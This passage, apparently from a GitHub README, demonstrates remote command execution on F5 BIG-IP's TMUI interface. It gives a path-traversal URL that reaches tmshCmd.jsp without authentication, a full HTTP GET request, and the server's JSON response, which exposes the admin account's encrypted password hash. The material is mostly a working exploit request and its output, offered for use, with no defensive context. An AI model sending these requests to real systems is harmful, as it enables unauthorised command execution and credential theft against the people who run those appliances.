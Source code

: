 ## 0x02 RCE (execute arbitrary system commands)

Example:

`/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin`

`list auth user` look all user

`list auth user admin` only look admin user

https://devcentral.f5.com/s/question/0D51T00006i7hq9/tmsh-command-to-list-all-users-in-all-partitions


![](./RCE.png)
```
GET /tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```

```
{
  "error": "",
  "output": "auth user admin {\n    description \"Admin User\"\n    encrypted-password $6$bEhBobYGG3$zmQ.k2Yw4E3iOAJu1jDIrE.LClSUq6xdLyNTvgDy14FIeDsxdnwAxkxUlpSQ7F60Y3tzKsUAKz.2qRtPLa.dx1\n    partition Common\n    partition-access {\n        all-partitions {\n            role admin\n        }\n    }\n    shell tmsh\n}\n"
}
```
#### format
